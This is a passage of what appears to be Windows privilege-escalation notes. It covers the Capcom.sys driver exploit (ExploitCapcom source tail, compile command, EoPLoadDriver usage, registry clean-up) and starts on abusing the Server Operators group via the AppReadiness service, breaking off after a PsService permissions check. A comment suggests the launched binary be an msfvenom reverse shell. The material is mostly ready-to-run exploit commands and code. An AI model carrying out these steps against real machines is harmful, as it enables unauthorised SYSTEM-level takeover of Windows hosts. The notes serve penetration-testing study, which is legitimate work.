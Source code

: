 ````
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}

# TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe"); -> This could be msfvenom revshell
# Compile
cl /DUNICODE /D_UNICODE ExploitCapcom.cpp

https://github.com/tandasat/ExploitCapcom
````
**Automating the Steps**

We can use a tool such as EoPLoadDriver to automate the process of enabling the privilege, creating the registry key, and executing NTLoadDriver to load the driver. To do this, we would run the following:
````
# Step 1 - Run EoPLoadDriver
> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

# Step 2 - Run ExploitCapcom.exe
> .\ExploitCapcom.exe
````
**Clean-up**
````
# Removing Registry Key
> reg delete HKCU\System\CurrentControlSet\Capcom
````

## Server Operators

The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful SeBackupPrivilege and SeRestorePrivilege privileges and the ability to control local services.

**AppReadiness Service**
````
# Querying the AppReadiness Service
> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# Checking Service Permissions with PsService
> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com
````